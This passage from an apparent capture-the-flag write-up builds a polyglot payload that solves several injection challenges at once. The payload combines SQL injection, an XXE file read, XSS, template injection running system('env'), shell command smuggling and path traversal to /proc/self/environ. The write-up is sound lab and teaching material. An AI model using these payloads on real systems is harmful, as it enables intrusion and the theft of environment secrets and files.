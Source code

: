 I also discovered too late that it was possible to merge the SQL injections and the XXE payloads :sad:. 

```ps1
<?or 1 union select flag,null,0 from flag--＇ union select flag,null,null from flag--?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///dev/shm/flag.txt'>]><root>&test;</root>
```

It works because the `?` is interpreted as `NULL`, and a bitshift with `NULL` is allowed and returns `NULL`.

```sql
sql> SELECT 10 << NULL
NULL

sql> SELECT 10 << ?
NULL
```

This payload is great but it doesn't work anymore for the Brainfuck category. A simple fix is to add a ">" at the start. Let's also reduce the size of the XXE by renaming the tags.

```ps1
<?or 1 union select ">[.>],[.,]",flag,0 from flag--＇union select flag,0,0 from flag--?><!DOCTYPE a[<!ENTITY b SYSTEM 'file:///dev/shm/flag.txt'>]><a>&b;</a></script><img src=x onerror=alert(flag)>{system('env')}{*{%if lipsum is defined%}{{lipsum.__globals__['os'].system('env')}}{%else%}{{['env']|filter('system')}}{%endif%}*}<%=ENV["FLAG"]%>';env;'/../../../../../../../proc/self/environ
```

## Conclusion

Now that the event is over and the scoreboard shows the official solutions, I’m slightly ashamed to admit you could bypass the XPath challenge with a simple `anything"]|*?>`. Maybe o4-mini wasn't the right call to solve this part, next time I will use my brain :sweat_smile:.

Here are the last adjustments to complete the 13 challenges in one-shot:

* Switch quote from `<%=ENV["FLAG"]%>` to `<%=ENV['FLAG']%>`, to stay inside the double quote of the XPATH clause
* Put the Brainfuck payload inside Unicode double quote (`＂`) instead of the traditional (`"`)
* Add the XPATH equivalent of "OR 1=1": `"]|*?>`

```ps1
<?or 1 union select ＂>[.>],[.,]＂,flag,0 from flag--＇union select flag,0,0 from flag--?><!DOCTYPE a[<!ENTITY b SYSTEM 'file:///dev/shm/flag.txt'>]><a>&b;</a></script><img src=x onerror=alert(flag)>{system('env')}{*{%if lipsum is defined%}{{lipsum.__globals__['os'].system('env')}}{%else%}{{['env']|filter('system')}}{%endif%}*}<%=`env`%>';env;'"]|*?>/../../../../../../../proc/self/environ
```
